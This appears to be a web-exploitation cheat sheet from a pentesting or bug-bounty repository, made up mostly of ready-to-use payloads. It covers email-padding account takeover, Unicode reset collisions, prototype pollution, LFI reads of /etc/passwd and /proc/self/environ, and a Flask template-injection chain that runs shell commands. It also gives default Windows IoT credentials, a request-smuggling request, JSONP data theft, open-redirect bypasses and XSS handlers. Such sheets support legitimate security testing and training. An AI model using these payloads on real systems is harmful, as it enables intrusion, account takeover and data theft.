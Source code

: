 ## Login exploits

	1. While registering account, try to append a space at the end of already registered email to attempt user account takeover(db removes trailing space while inserting however application not).

	2. If email maximum length is fixed and characters after allowed length are stripped, try to register an email having spaces appended till maximum character length + any character at end, eg <admin@htb.com      #>. 

## Unicode Collisions

unicode characters collide with few english characters. This fact can be used to exploit functionalities like - when Forgot password emails validated against lowercase/uppercase value on file, but sent to the provided input email.

```
// https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/

//uppercase scenario
chr(0x017f).upper()=='S'	# returns True
chr(0x0131).upper()=='I'

// lowercase scenario
chr(0x212A).lower()=='k'
```

## Javascript prototype pollution

Using this bug, we can set new properties of objects. Eg- we can set json object {"user":"test"} new property admin=true if server takes json data and sets attributes using it. 

payload `{"user":"test","__proto__":{"admin":true}}`

```
a={}
b=1
c='ds'

# polluting prototype
a.__proto__.foo='bar'

# All objects have foo property now with value bar
d=new Object
d.foo=='bar'	# true
b.foo=='bar'	# true
```

## WebDAV/PUT method enabled

```
curl -X PUT http://192.168.14.129/dav/test.txt
cadaver http://target/dav
```


## LFI

```
cat /proc/version
cat /etc/issue
cat /proc/self/environ
cat /proc/net/tcp	# listening processes tcp
cat /proc/net/udp	# listening processes udp
```

## Universal Plug and Play UPnP 

* Windows Device Portal - port 8080

	Windows IoT Core devices support a special webserver called the Device Portal. Windows Device Portal runs on port 8080 in Development mode and has default credentials as Administrator and p@ssw0rd (zero).

	RCE can be acheived using the vulnerability in Sirep/WPCon communications protocol included with Windows IoT operating system.

	```
	// git clone the repo
	https://github.com/SafeBreach-Labs/SirepRAT
	```

* CallStranger(CVE-2020-12695) Vulnerability - port 37215

	The vulnerability – CallStranger – is caused by Callback header value in UPnP SUBSCRIBE function can be controlled by an attacker and enables an SSRF-like vulnerability.

	```
	// git clone the repo
	https://github.com/yunuscadirci/CallStranger
	```

## Zip Symlink

If zip files can be uploaded and content is accessible. Try to access local files using this bug. 

```
mkdir test
cd test
ln -s /etc/passwd link.txt
cat link.txt 		# prints content of /etc/passwd
zip --symlinks -r test.zip test/
unzip -l test.zip
```

## Flask Template Injection SSTI

Check with basic template injection payload {{ 7* 7}} and if it evaluates, try to further exploit it. May be it reflects at multiple places, make sure to check them all.

```
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

{{ config.items() }}	#see config items

#Get subprocess.Popen object using mro(parent) and subclasses
{{ ''.__class__.__mro__[1].__subclasses__() }}

#Execute command
{{‘’.__class__.__mro__[1].__subclasses__()[287]('ls',shell=True,stdout=-1).communicate()}}
```

## Request Smuggling

Pass both content-length and Transfer-Encoding header when posting data to an endpoint. Try CL-TE, TE-CL and TE-TE attack.

Make sure to change connection header to keep-alive. Also use mandatory headers like Host, user-agent and cookie to avoid server discarding the request. For post request, use content-length and content-type header as well. 

```
Remember Transfer encoding uses hex numbers to represent chunk size.

## CL-TE example (CL frontend, TE backend)

Content-Length: 50
Transfer-Encoding:chunked

0

POST /404 HTTP/1.1
Host: 10.10.14.93
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Cookie: session=abcd

msg=abc
```

## JsonP

Check if website returns sensitive json data.  If so, try to append query parameter jsonp or callback and see if jsonp is supported. 

Jsonp exploit works in firefox only.

```
<script>
      userinfo = function (data) {
      alert(JSON.stringify(data));
      };  
</script>
<script src="https://www.bugbountytraining.com/challenges/challenge-15.php?jsonp=userinfo" type="text/javascript"></script>
 Challenge hints
(click to reveal)
 Guides
Understanding Application/Business Logic vulnerabilities
```

## Open Redirect (Bypass)

```
# If . is not allowed, we can use %E3%80%82 which also evaluates to . and works fine
redirectUri=http://example%E3%80%82com#.bugbountyhunter.com

redirectUrl=/%0d/example.com/
redirectUri=https://example.com#.target.com/
redirectUri=https://example.com/.target.com/
redirectUri=https://example.com\.target.com/
redirectUri=https://example.com?.target.com/
```

## XSS (bypass events)

```
onpointerrawupdate='alert(0)'
onmouseleave='alert(0)'
```